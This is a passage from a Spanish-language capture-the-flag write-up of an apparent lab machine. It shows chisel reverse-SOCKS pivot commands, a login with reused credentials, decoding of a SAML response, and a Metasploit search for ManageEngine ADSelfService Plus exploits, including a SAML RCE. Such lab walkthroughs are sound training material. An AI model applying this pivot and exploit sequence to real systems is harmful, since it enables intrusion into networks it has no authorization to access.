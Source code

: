 
###### En máquina atacante:

```bash
./chisel server -p 1234 --socks5 --reverse
```

###### En máquina víctima:

```bash
./chisel client 10.10.14.2:1234 R:socks
```


- Ahora verificamos en el navegador qué hay en la dirección local en el puerto 9251 (usando el protocolo socks5, se puede usar FoxyProxy para establecer el proxy):

```js
http://localhost:9251
```

- Nos redirige a la dirección "dc.cerberus.local", lo agregamos el "/etc/hosts" apuntando con la dirección local "127.0.0.1"

- Volvemos a cargar la página y vemos un login, accedemos como usuario "cerberus.local\matthew" usando la misma contraseña de WinRM

- Notamos que no nos muestra nada, sin embargo en la URL nos filtra una GUID:

```js
https://dc:9251/samlLogin/67a8d101690402dc6a6744b8fc8a7ca1acf88b2f
```

- Verificamos la SAML response, para esto abrimos las opciones de desarrollador (Ctrl+shift+K en Firefox) y nos ubicamos en la pestaña de "Network", ahora nos volvemos a logear en la página y la pestaña en la que estamos ubicamos veremos en el inicio un recurso, si hacemos click en este en el lado derecho nos debería reportar la "SAMLResponse", estará codificada en base64, la decodificamos y vemos el siguiente contenido:


```xml
<samlp:Response ID="_1c489b80-6079-459d-b4e2-f6c56cb331ff" Version="2.0" IssueInstant="2023-07-26T22:44:28.110Z" Destination="https://DC:9251/samlLogin/67a8d101690402dc6a6744b8fc8a7ca1acf88b2f" Consent="urn:oasis:names:tc:SAML:2.0:consent:unspecified" InResponseTo="_3b0a6ec0bad55aa0428c1fbd2d5d87c9" xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"><Issuer xmlns="urn:oasis:names:tc:SAML:2.0:assertion">http://dc.cerberus.local/adfs/services/trust</Issuer>
```

- Vemos que hay una dirección de "Issuer", esto nos servirá luego.


- Usamos Metasploit para buscar como explotar la aplicación "ADSelfService Plus" y encontramos lo siguiente:

```js
search adself

Matching Modules
================

   #  Name                                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                                        ---------------  ----       -----  -----------
   0  exploit/windows/http/manageengine_adselfservice_plus_cve_2021_40539         2021-09-07       excellent  Yes    ManageEngine ADSelfService Plus CVE-2021-40539
   1  exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810         2022-04-09       excellent  Yes    ManageEngine ADSelfService Plus Custom Script Execution
   2  exploit/multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966  2023-01-10       excellent  Yes    ManageEngine ADSelfService Plus Unauthenticated SAML RCE
```
